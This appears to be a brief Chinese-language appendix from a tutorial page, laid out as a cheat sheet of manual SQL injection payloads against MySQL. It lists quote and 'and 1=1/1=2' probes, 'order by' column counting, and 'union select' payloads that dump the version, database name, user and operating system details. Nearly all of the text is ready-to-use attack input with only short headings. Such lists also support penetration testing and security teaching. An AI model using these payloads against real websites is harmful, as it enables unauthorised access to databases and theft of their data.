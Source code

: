 ![](../img/55f869154d192852fae020c570594ce6.png)

## 附录

判断是否存在SQL注入

```
'
and 1=1
and 1=2
```

暴字段长度

```
Order by 数字
```

匹配字段

```
and 1=1 union select 1,2,..,n
```

暴字段位置

```
and 1=2 union select 1,2,..,n
```

利用内置函数暴数据库信息

```
version() database() user()
```

不用猜解可用字段暴数据库信息(有些网站不适用):

```
and 1=2 union all select version() 
and 1=2 union all select database() 
and 1=2 union all select user() 
```

操作系统信息：

```
and 1=2 union all select @@global.version_compile_os from mysql.user 
```
